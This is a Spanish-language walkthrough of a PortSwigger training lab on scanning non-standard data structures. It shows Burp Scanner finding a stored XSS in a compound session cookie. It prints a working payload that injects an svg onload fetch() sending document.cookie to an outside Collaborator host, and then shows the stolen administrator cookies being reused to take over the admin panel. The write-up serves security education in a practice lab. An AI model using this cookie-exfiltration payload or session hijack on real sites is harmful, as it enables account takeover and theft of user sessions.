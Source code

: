 ```yaml
---
title: "Scanning non-standard data structures"
description: "Laboratorio de Portswigger sobre Essential Skills"
date: 2024-12-08 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Essential Skills
tags:
  - Portswigger Labs
  - Essential Skills
  - Scanning non-standard data structures
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` que es difícil de encontrar `manualmente`. Se encuentra en una `estructura de datos no estándar`. Para `resolver` el laboratorio, debemos usar la función `Scan selected insertion point` de `Burp Scanner` para identificar la `vulnerabilidad`, luego `explotarla` manualmente y eliminar al `usuario carlos`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Essential-Skills-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/Essential-Skills-Lab-2/image_2.png)

`Recargamos` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Essential-Skills-Lab-2/image_3.png)

El `formato` de la `cookie` es bastante `extraño`

```
session=wiener:zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

Si la `estructura` de `datos` fuera `estándar`, es decir que tuviera `un solo campo` podríamos `marcar todo el dato` de forma `completa` de esta manera

```
session=zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

![](/assets/img/Essential-Skills-Lab-2/image_4.png)

Sin embargo, en este caso, parece que se trata de dos `estructuras de datos` diferentes. Por ello, no tendría sentido manejarlo de esta manera, ya que `Burp Suite` enviaría un único `payload` para toda la `estructura`. En estos casos, o cuando trabajamos con un `JSON`, lo mejor es `enviar` la `petición` al `Intruder`, establecer `puntos de inserción` (insertion points) en cada `dato` y escanear los valores de manera `independiente` y no como un `único bloque`. Cuando se abra la nueva `ventana` en `Burp Intruder`, debemos pulsar en `OK` y comenzará el `escaneo`

![](/assets/img/Essential-Skills-Lab-2/image_5.png)

Si nos vamos a `Dashboard` veremos que nos ha `detectado` un `XSS`, aunque ponga `audit finished` necesitaremos `esperar` un poco `más` de `tiempo` para que nos `muestre` lo que ha `encontrado`

![](/assets/img/Essential-Skills-Lab-2/image_6.png)

Este es el `payload` que vamos a usar ahora para `obtener` la `cookie`, debemos usar `Burpsuite Collaborator` para que nos mande ahí las `peticiones`

```
Cookie: session='"><svg/onload=fetch(`//ird4jrrnt2mjjytc1bdncj4v8mee24qt.oastify.com/${encodeURIComponent(document.cookie)}`)>:gzUjX1PEjSeUz0hi59YqWXwVpEiCHt9x
```

Para `encodear` el `payload` de la misma forma en la que está, debemos usar el `inspector` de `Burpsuite`, el cual se `encargará` de `encodearlo` de la misma forma en la que está el anterior

![](/assets/img/Essential-Skills-Lab-2/image_7.png)

Una vez `enviada` la `petición`, nos llega esto a `Burpsuite Collaborator`

![](/assets/img/Essential-Skills-Lab-2/image_8.png)

El `inspector` de `Burpsuite` lo `decodea` por nosotros y vemos que estas son las `cookies` del usuario `administrator`

![](/assets/img/Essential-Skills-Lab-2/image_9.png)

```
/session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD; secret=jPNSk5gKjLbTQaTMWbYl81pU2rTtXufm; session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD
```

Nos vamos al navegador y pulsamos `Ctrl + Shift + i` y vemos que tenemos varios `campos` de `cookies`

![](/assets/img/Essential-Skills-Lab-2/image_10.png)

`Sustituimos` los `campos` de `cookies` y pulsamos `F5` para `refrescar` la `web`

![](/assets/img/Essential-Skills-Lab-2/image_11.png)

Ya tenemos `acceso` al `panel` de `administrador` y podemos `eliminar` al usuario `carlos`

![](/assets/img/Essential-Skills-Lab-2/image_12.png)

Vemos que hay una parte llamada `View Logs`, aquí es donde se ha producido el `XSS` debido a que el usuario `administrator` se encontraba `revisándolo`

![](/assets/img/Essential-Skills-Lab-2/image_13.png)
